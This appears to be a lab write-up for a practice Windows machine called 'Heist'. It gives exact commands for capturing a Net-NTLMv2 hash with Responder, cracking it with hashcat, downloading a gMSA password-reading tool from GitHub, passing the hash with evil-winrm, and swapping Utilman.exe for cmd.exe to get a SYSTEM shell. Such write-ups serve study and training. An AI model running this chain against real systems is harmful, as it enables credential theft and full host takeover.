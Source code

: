 ## Takeaway
## Metadata
- Port `8080` is running an web application allowing browsing of arbitrary URL.![[Pasted image 20240328120237.png]]
	- Run `sudo responder -I tun0 -A` and enter URL `http://192.168.45.189/test` to receive `Net-NTLMv2` hash of the user `enox`.![[Pasted image 20240328120353.png]]
	- Run `hashcat -M 5600 enox.hash /usr/share/wordlists/rockyou.txt --force` to retrieve credential pair as `enox:california`.![[Pasted image 20240328120721.png]]
	- Running `netexec winrm 192.168.193.165 -u enox -p california` has access to the host through `winrm`.![[Pasted image 20240328124234.png]]
- Enumerating as `enox` can locate `todo.txt` at `C:\Users\enox\Desktop` saying there is a `Group Managed Service Account(gmsa)` enabled.![[Pasted image 20240328134516.png]]
- Run `bloodhound` will identify that the `gmsa` account is called `svc_apache$` which is also a member of `REMOTE MANAGEMENT USERS`.![[Pasted image 20240328134641.png]]
	- Further enumeration will identify the user `enox` is member of `WEB ADMINS`  which is granted `ReadGMSAPassword` privilege.![[Pasted image 20240328134828.png]]
	- Upload `GMSAPasswordReader.exe` from `https://github.com/CsEnox/tools/raw/main/GMSAPasswordReader.exe` using `winrm`. Run `.\GMSAPasswordReader.exe   --AccountName svc_apache$`  will give us the hash of the account.![[Pasted image 20240328140633.png]]
- Enumerating as `heist\svc_apache$` will identify that `SeRestorePrivilege` is enabled which basically grants us permission for **write access** to any system file, irrespective of the file's Access Control List (ACL). ![[Pasted image 20240328142449.png]]
# Exploitation
## Shell as enox
- Run `evil-winrm -i 192.168.193.165 -u enox -p california` to get a session as `heist\enox`.
## Shell as svc_apache$
- Run `evil-winrm -i 192.168.193.165 -u "svc_apache$" -H 4B3F0BF258E6C099A7B800EC37B2D456` to get a session as `heist\svc_apache$`.
# PrivEsc
- With `SeRestorePrivilege` enable, run `ren C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.exe.old` and `ren C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe`.
	- Run `rdesktop 192.168.193.165` and hit `Windows key + u` to get a command prompt session under `nt authority/system`
